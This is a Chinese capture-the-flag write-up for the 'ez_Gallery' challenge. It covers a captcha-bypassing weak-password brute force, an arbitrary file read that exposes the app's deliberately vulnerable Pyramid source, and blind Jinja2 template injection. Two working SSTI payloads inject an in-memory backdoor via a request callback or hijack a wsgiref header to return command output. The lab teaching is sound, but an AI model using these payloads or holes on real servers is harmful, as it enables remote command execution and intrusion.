# ez_Gallery预期解之内存马挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16120  
> **文章ID**: 16120

---

# ez\_Gallery预期解之内存马挖掘

## 前言

和出题人交流了一波,预期解太少了，几乎没有，只有一个队好像，主要想考的是 python 无回显应该怎么办，打内存马？当然还有其他的方法，比如最近新起的回显外带，当然最古老的盲注也是可以的，然后出题人有点非常苦恼的点，就是想设置不出网的，但是 GZ 平台很恼火，不行，只删除了一些基本的出网命令，但是 bash 或者 sh 还是不能删除，导致反弹 shell 易如反掌，就被非预期了

考察知识点：绕过验证码的弱密码爆破，任意文件读取，pyramid 钩子函数使用

### 绕过验证码的弱密码爆破

打开题目是一个登录框，有验证码



其他路由都有鉴权，只有登录后才能访问功能点。尝试弱密码爆破

#### 一、xiapao

使用参考：<https://blog.csdn.net/qq1140037586/article/details/128455338>


步骤一填入链接为验证码图片链接，然后开启本地验证码识别服务

  
然后把验证码位置替换为 @xiapao@1@

  
最后在把线程设为 1 就能开始爆破了



看到显示的就是用户名错误了，最后得到密码，验证码设置得非常简单，成功率非常高，如果没爆出来  
多尝试个两三次就行了，



#### 二、pkav

添加 http 请求包，并加载好字典


然后进行验证码配置



最后直接发包开始爆破，也能爆破成功，就是失败率比较高



### 任意文件读取

登录成功后来到 home 路由


随便点一个，发现 url 存在任意文件读取



尝试读取源码/app/app.py



### pyramid 钩子函数使用

源码

```
import jinja2  
from pyramid.config import Configurator  
from pyramid.httpexceptions import HTTPFound  
from pyramid.response import Response  
from pyramid.session import SignedCookieSessionFactory  
from wsgiref.simple_server import make_server  
from Captcha import captcha_image_view, captcha_store  
import re  
import os  

class User:  
   def __init__(self, username, password):  
       self.username = username  
       self.password = password  

users = {"admin": User("admin", "123456")}  

def root_view(request):  
   # 重定向到 /login   return HTTPFound(location='/login')  

def info_view(request):  
   # 查看细节内容  
   if request.session.get('username') != 'admin':  
       return Response("请先登录", status=403)  

   file_name = request.params.get('file')  
   file_base, file_extension = os.path.splitext(file_name)  
   if file_name:  
       file_path = os.path.join('/app/static/details/', file_name)  
       try:  
           with open(file_path, 'r', encoding='utf-8') as f:  
               content = f.read()  
               print(content)  
       except FileNotFoundError:  
           content = "文件未找到。"  
   else:  
       content = "未提供文件名。"  

   return {'file_name': file_name, 'content': content, 'file_base': file_base}  

def home_view(request):  
   # 主路由  
   if request.session.get('username') != 'admin':  
       return Response("请先登录", status=403)  

   detailtxt = os.listdir('/app/static/details/')  
   picture_list = [i[:i.index('.')] for i in detailtxt]  
   file_contents = {}  
   for picture in picture_list:  
       with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as
f:  
           file_contents[picture] = f.read(80)  

   return {'picture_list': picture_list, 'file_contents': file_contents}  

def login_view(request):  
   if request.method == 'POST':  
       username = request.POST.get('username')  
       password = request.POST.get('password')  
       user_captcha = request.POST.get('captcha', '').upper()  

       if user_captcha != captcha_store.get('captcha_text', ''):  
           return Response("验证码错误，请重试。")  
       user = users.get(username)  
       if user and user.password == password:  
           request.session['username'] = username  
           return Response("登录成功！<a href='/home'>点击进入主页</a>")  
       else:  
           return Response("用户名或密码错误。")  
   return {}  

def shell_view(request):  
   if request.session.get('username') != 'admin':  
       return Response("请先登录", status=403)  

   expression = request.GET.get('shellcmd', '')  
   blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*']  
   if any(re.search(pattern, expression) for pattern in blacklist_patterns):  
       return Response('wafwafwaf')  
   try:  
用的是 pyramid 框架，看到在/shell 路由存在 ssti 漏洞，进行访问传参发现没有回显
       result =
jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"r
equest": request})  
       if result != None:  
           return Response('success')  
       else:  
           return Response('error')  
   except Exception as e:  
       return Response('error')  


def main():  
   session_factory = SignedCookieSessionFactory('secret_key')  
   with Configurator(session_factory=session_factory) as config:  
       config.include('pyramid_chameleon')  # 添加渲染模板  
       config.add_static_view(name='static', path='/app/static')  
       config.set_default_permission('view')  # 设置默认权限为view  

       # 注册路由  
       config.add_route('root', '/')  
       config.add_route('captcha', '/captcha')  
       config.add_route('home', '/home')  
       config.add_route('info', '/info')  
       config.add_route('login', '/login')  
       config.add_route('shell', '/shell')  
       # 注册视图  
       config.add_view(root_view, route_name='root')  
       config.add_view(captcha_image_view, route_name='captcha')  
       config.add_view(home_view, route_name='home', renderer='home.pt',
permission='view')  
       config.add_view(info_view, route_name='info', renderer='details.pt',
permission='view')  
       config.add_view(login_view, route_name='login', renderer='login.pt')  
       config.add_view(shell_view, route_name='shell', renderer='string',
permission='view')  

       config.scan()  
       app = config.make_wsgi_app()  
       return app  


if __name__ == "__main__":  
   app = main()  
   server = make_server('0.0.0.0', 6543, app)  
   server.serve_forever()

```

用的是 pyramid 框架，看到在/shell 路由存在 ssti 漏洞，进行访问传参发现没有回显


打无回显无非就是反弹 shell，写文件，但是题目环境不出网，并且用户没有写入权限。尝试内存马，  
这里添加路由视图用的时 config.add\_view ，查看 config 所有变量

```
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__',
'__eq__', '__exit__', '__format__', '__ge__', '__getattr__', '__getattribute__',
'__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__',
'__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__',
'__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__',
'_add_predicate', '_add_tween', '_ainfo', '_apply_view_derivers',
'_check_view_options', '_ctx', '_del_introspector', '_derive_predicate',
'_derive_subscriber', '_derive_view', '_fix_registry', '_get_action_state',
'_get_introspector', '_get_static_info', '_make_spec', '_override',
'_set_action_state', '_set_introspector', '_set_locale_negotiator',
'_set_root_factory', '_set_settings', 'absolute_asset_spec',
'absolute_resource_spec', 'action', 'action_info', 'action_state',
'add_accept_view_order', 'add_cache_buster', 'add_default_accept_view_order',
'add_default_renderers', 'add_default_response_adapters',
'add_default_route_predicates', 'add_default_security', 'add_default_tweens',
'add_default_view_derivers', 'add_default_view_predicates', 'add_directive',
'add_exception_view', 'add_forbidden_view', 'add_notfound_view',
'add_permission', 'add_renderer', 'add_request_method',
'add_resource_url_adapter', 'add_response_adapter', 'add_route',
'add_route_predicate', 'add_settings', 'add_static_view', 'add_subscriber',
'add_subscriber_predicate', 'add_translation_dirs', 'add_traverser', 'add_tween',
'add_view', 'add_view_deriver', 'add_view_predicate', 'autocommit', 'basepath',
'begin', 'commit', 'derive_view', 'end', 'get_predlist', 'get_routes_mapper',
'get_settings', 'hook_zca', 'include', 'includepath', 'info', 'inspect',
'introspectable', 'introspection', 'introspector', 'make_wsgi_app', 'manager',
'maybe_dotted', 'name_resolver', 'object_description', 'override_asset',
'override_resource', 'package', 'package_name', 'registry', 'root_package',
'route_prefix', 'route_prefix_context', 'scan', 'set_authentication_policy',
'set_authorization_policy', 'set_csrf_storage_policy',
'set_default_csrf_options', 'set_default_permission', 'set_execution_policy',
'set_forbidden_view', 'set_locale_negotiator', 'set_notfound_view',
'set_request_factory', 'set_response_factory', 'set_root_factory',
'set_security_policy', 'set_session_factory', 'set_view_mapper',
'setup_registry', 'testing_add_renderer', 'testing_add_subscriber',
'testing_add_template', 'testing_models', 'testing_resources',
'testing_securitypolicy', 'unhook_zca', 'venusian', 'with_package']

```

在其中不难发现几个明显的能打内存马的函数

```
'add_exception_view', 'add_forbidden_view', 'add_notfound_view'

```

但是由于 config 在 main()函数里面，是局部变量，所以无法利用。

### 解法一

这里可以去找其他和 config 没关的钩子函数，参考官方文档 "use hooks"：  
<https://docs.pylonsproject.org/projects/pyramid/en/1.4-branch/narr/hooks.html>  
发现 request 也存在钩子函数



官方解释



而且 request 是每个函数都会有的，构造

```
request.add_response_callback(lambda request, response: setattr(response, 'text',
__import__('os').popen('whoami').read()))

```

在套进 exec 方法中

```
{{cycler.__init__.__globals__.__builtins__['exec']
("request.add_response_callback(lambda request, response: setattr(response,
'text', __import__('os').popen('whoami').read()))",{'request': request})}}
{{x.__init__.__globals__.__builtins__['exec']
("request.add_response_callback(lambda request, response: setattr(response,
'text', __import__('os').popen('whoami').read()))",{'request': request})}}

```

注意最后的 {'request': request} ，声明 request，因为在 exec 的作用域中没有 request，需要进行  
声明，最后得到回显进行命令执行



同理 request 的另一个钩子函数 add\_finished\_callback 也可以

### 解法二

感觉一般人会先想到这个，因为之前的 sctf 的官方 wp 就是 header 头外带回显，这里只是变了个框架而  
已。

直接来到 BaseRequestHandler 类的初始方法，看到先是调用了 handle 方法

  
进行跟进，看到在最好调用了 handler.run 方法，这里的 handler 是 ServerHandler



来 run 方法中，接着跟进到 finish\_reponse() 方法中

  
这里的 data 就是返回的 body 内容，调用 write 方法，

  
把 data 写入返回的 body 中，然后调用了 send\_headler


这里注意到 send\_preamble() 方法，跟进

  
看到最后的 header 头就是在这里进行的赋值，是每次请求进行的动态赋值，那么可以通过 ssti 将其修改  
为我们的回显

  
self 是 ServerHandler 类，所以构造

```
{{cycler.__init__.__globals__.__builtins__['setattr']
(cycler.__init__.__globals__.__builtins__.__import__('sys').modules['wsgiref'].si
mple_server.ServerHandler,'server_software',cycler.__init__.__globals__.__builtin
s__.__import__('os').popen('whoami').read())}}

```


